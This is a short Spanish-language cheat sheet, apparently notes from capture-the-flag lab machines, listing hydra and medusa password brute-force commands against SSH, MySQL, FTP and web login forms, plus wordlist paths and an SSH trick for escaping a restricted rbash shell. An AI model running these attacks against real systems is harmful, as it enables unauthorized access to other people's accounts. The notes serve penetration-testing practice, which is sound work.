comando de ejemplo:

hydra -l toctoc -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64 -I

existe la posibilidad de que me conecte por ssh y esté restringido la rbash 

por ejemplo en la máquia first:

ya conectado por ssh ejecuté el comando:

find / -perm -4000 2>/dev/null

y me salió el mensaje:

-rbash: /dev/null: restringido: no se puede redirigir la salida

solución:

me conecto de la siguiente manera:

ssh pi@10.0.2.10 -t "bash --noprofile"

rockyou:

/usr/share/wordlists/rockyou.txt

metasploit
/usr/share/wordlists/metasploit/unix_passwords.txt


rutas de usuarios:
/usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt

[+] ataque para mysql:

hydra -l user -P /usr/share/wordlists/rockyou.txt mysql://172.17.0.2

[+] atque para ftp

hydra -l user -P /usr/share/wordlists/rockyou.txt ftp://172.17.0.2 -t 64 -I

[+] comando para ataque a ssh con medusa:

medusa -h 172.17.0.2 -u augustus -P /usr/share/wordlists/rockyou.txt -M ssh

ssh corre en el puerto 8899

medusa -h 172.17.0.2 -u augustus -P /usr/share/wordlists/rockyou.txt -M ssh -n 8899

[+] Para un formulario:

hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt 172.17.0.2 http-post-form "/admin.php:username=^USER^&password=^PASS^:F=Usuario o contraseña incorrectos."

con dominio:

hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt realgob.dl http-post-form "/admin.php:username=^USER^&password=^PASS^:F=Usuario o contraseña incorrectos." 

con cookie y dominio:

hydra -l admin -P /usr/share/wordlists/rockyou.txt "realgob.dl" http-post-form "/admin.php:username=^USER^&password=^PASS^:H=Cookie: PHPSESSID=t4ebcjusiu12d3olhsmneorq9t:F=Usuario o contraseña incorrectos." -F 

